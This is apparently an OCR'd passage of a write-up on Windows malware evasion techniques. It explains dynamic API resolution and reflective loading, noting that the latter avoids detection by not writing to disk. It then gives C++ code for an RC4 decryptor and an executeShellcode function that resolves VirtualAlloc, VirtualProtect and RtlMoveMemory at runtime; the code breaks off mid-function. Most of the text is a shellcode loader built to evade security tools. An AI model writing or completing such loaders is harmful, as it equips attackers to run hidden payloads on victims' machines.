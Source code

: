 ### **Dynamic API Resolution**
Dynamic API resolution is a technique where the program dynamically resolves the addresses of the required Windows API functions at runtime instead of statically linking them.

### **Reflective Loading**
Reflective loading refers to loading and executing a PE file (such as a DLL) from memory rather than from disk. This technique is often used to evade detection since it avoids writing the file to disk.

### Updated C++ Code with Dynamic API Resolution and Reflective Loading

```cpp
#include <windows.h>
#include <iostream>
#include <fstream>
#include <string>

typedef FARPROC(WINAPI *lpfnGetProcAddress)(HMODULE, LPCSTR);
typedef HMODULE(WINAPI *lpfnLoadLibraryA)(LPCSTR);
typedef LPVOID(WINAPI *lpfnVirtualAlloc)(LPVOID, SIZE_T, DWORD, DWORD);
typedef BOOL(WINAPI *lpfnVirtualProtect)(LPVOID, SIZE_T, DWORD, PDWORD);
typedef VOID(WINAPI *lpfnRtlMoveMemory)(VOID UNALIGNED*, const VOID UNALIGNED*, SIZE_T);

void rc4(unsigned char* buffer, size_t size, const char* key, size_t key_len) {
    unsigned char S[256], K[256], temp;
    int i, j = 0;

    for (i = 0; i < 256; i++) {
        S[i] = i;
        K[i] = key[i % key_len];
    }

    for (i = 0; i < 256; i++) {
        j = (j + S[i] + K[i]) % 256;
        temp = S[i];
        S[i] = S[j];
        S[j] = temp;
    }

    i = j = 0;
    for (size_t k = 0; k < size; k++) {
        i = (i + 1) % 256;
        j = (j + S[i]) % 256;
        temp = S[i];
        S[i] = S[j];
        S[j] = temp;
        buffer[k] ^= S[(S[i] + S[j]) % 256];
    }
}

void executeShellcode(unsigned char* buffer, size_t size) {
    HMODULE hKernel32 = GetModuleHandle(L"kernel32.dll");

    lpfnLoadLibraryA MyLoadLibraryA = (lpfnLoadLibraryA)GetProcAddress(hKernel32, "LoadLibraryA");
    lpfnGetProcAddress MyGetProcAddress = (lpfnGetProcAddress)GetProcAddress(hKernel32, "GetProcAddress");
    lpfnVirtualAlloc MyVirtualAlloc = (lpfnVirtualAlloc)MyGetProcAddress(hKernel32, "VirtualAlloc");
    lpfnVirtualProtect MyVirtualProtect = (lpfnVirtualProtect)MyGetProcAddress(hKernel32, "VirtualProtect");
    lpfnRtlMoveMemory MyRtlMoveMemory = (lpfnRtlMoveMemory)MyGetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlMoveMemory");
```